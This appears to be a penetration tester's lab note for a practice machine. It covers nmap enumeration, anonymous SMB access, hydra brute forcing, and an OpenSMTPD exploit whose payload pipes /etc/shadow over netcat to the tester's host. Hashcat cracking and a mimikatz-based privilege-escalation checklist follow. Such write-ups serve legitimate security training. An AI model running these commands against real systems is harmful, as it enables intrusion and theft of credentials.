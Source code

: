 ### Enumeration
```
IP=192.168.247.71
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,25,80,445 -A $IP
```
### Ports 
- 22
	- OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 25
	- OpenSMTPD 2
- 80
	- nginx 1.14.0 (Ubuntu)
- 445
	- Samba smbd 4.7.6-Ubuntu
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- 445
	- smbclient -N -L //$IP
		- anonymous login successful
		- shares
			- backups
				- passwd.bak
					- Backup of /etc/passwd
					- Valid users
					- root, neil, postgres
			- IPC$
	- nmap --script smb-vuln* -p135,139,445 $IP
		- Vulnerable to ddos
	- Put known users into users.txt
	- `hydra -L users.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt smb://$IP`
		- no password found
	- `hydra -L users.txt -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-500.txt smb://$IP`
		- no password found
- 80
	- Default landing page
		- ![[Pasted image 20240709083952.png]]
	- Versions
		- FlaskBB
	- Directory Brute force
		- dirsearch -u http://$IP
			- `/index.html`
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
- 25
	- Google opensmtpd 2.0.0 exploit
		- exploit-db 47984
			- Does not get rce
			- nc -lvnp 80
			- python3 47984.py 192.168.247.71 25 'nc -vn 192.168.45.195 80 < /etc/shadow'
			- This sends /etc/shadow to our nc listener
			- Then run 
				- unshadow root_passwd root_shadow  > root_unshadow
					- hashcat -m 1800 -a 0 root_unshadow /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
				- unshadow neil_passwd neil_shadow  > neil_unshadow
					- hashcat -m 1800 -a 0 neil_unshadow /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
			- Supposed to edit /etc/passwd then send it back to system
### PE
#### Linux
- USERNAME
	- id
	- sudo -l
	- uname -a
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- Users with console
	- linpeas
#### Windows
- USERNAME
	- whoami /all
	- net user USERNAME
		- Check group memberships
	- systeminfo
	- history
		- (Get-PSReadLineOption).HistorySavePath
			- type PATH
	- Users with console
	- Unquoted
		- cmd
			- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
		- PS1
			- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
		- icacls Filepath before .exe
			- Looking for W or F
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
### Credentials
### Lessons Learned